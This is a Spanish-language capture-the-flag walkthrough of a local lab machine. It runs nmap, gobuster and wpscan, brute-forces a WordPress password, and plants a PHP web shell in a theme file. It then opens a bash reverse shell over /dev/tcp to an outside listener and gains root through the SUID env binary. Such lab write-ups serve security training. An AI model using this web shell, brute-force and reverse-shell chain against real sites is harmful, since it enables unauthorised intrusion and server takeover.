

Primero haremos un escaneo de la ip víctima para ver que servicios están corriendo en los puertos abiertos.
```
sudo nmap -sV -sC --min-rate 7000 -p- -Pn 172.17.0.2 -oN escaneo
```


Vemos que tenemos el puerto 80 abierto que corresponde a un servidor apache. Vamos a ver que contiene.


Vemos que contiene la página por defecto de apache, así que vamos a hacer un fuzzing de la web para ver si teine directorios o archivos ocultos.
```
gobuster dir -u http://172.17.0.2 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium-txt -x html,php,txt
```


Vemos que hay un directorio llamado wordpress, así que vamos a ver que nos muestra.


Vemos que nos mustra una plantilla, así que vamos a enumerar la página wordpress.
```
wpscan --url http://172.17.0.2/wordpress
```


Vemos que está todo correcto, vamos a intentar sacar el usuario administrador de wordpress.
```
wpscan --url http://172.17.0.2/wordpress -e u
```


Vemos que al final del escaneo nos muestra el usuario que es `mario`. Ahora vamos a relizar un ataque de fuerza bruta para sacar su password.
```
wpscan --url http://172.17.0.2/wordpress -U mario -P /usr/share/wordlists/rockyou.txt
```


Vemos que la credencial del usuario `mario` es `love`. Así que nos dirigiremos a la ruta `http://172.17.0.2/wordpress/wp-admin` y lo introduciremos.


Vemos que ya tenemos el control total del wordpress, ahora nos intentaremos crear una webshell para poder realizar una revershell. Para ello nos situaremos en el editor de codigo del tema y en el archivo index.php, lo borraremos todo y escribiremos lo siguiente:
```
<?php
    system($_GET['CMD']);
?>
```


Una vez lo hayamos escrito guardamos cambios y nos vamos a la ruta del tema y escribimos lo que hemos puesto dentro del &_GET.
```
http://172.17.0.2/wordpress/wp-content/themes/twentytwentytwo/index.php?CMD=id
```


Si nos ejecuta el comando de servidor, entonces vamos a realizar la revershell. Para ello, nos pondremos a la escucha desde una terminal:
```
nc -lnvp 6969
```


Despues del símbolo igual, escibiremos lo siguiente encodeado en url:
```
bash -c 'exec bash -i &>/dev/tcp/192.168.80.132/6969 <&1'
```


Veremos que en nustra terminal se nos ha generado la shell, vamos a realizar un tratamiento de la tty para evitar problemas en la escalada de privilegios.
```
script /dev/null -c bash
Cntl + Z
stty  raw -echo;fg
reset xterm
export SHELL=bash
export TERM=xterm
```
Ahora vamos a intentar conseguir los máximos permisos posibles.
```
find / -perm -4000 2>/dev/null
```


Vemos que nos podemos aprovechar del binario env.
```
/usr/bin/env /bin/bash -p
```
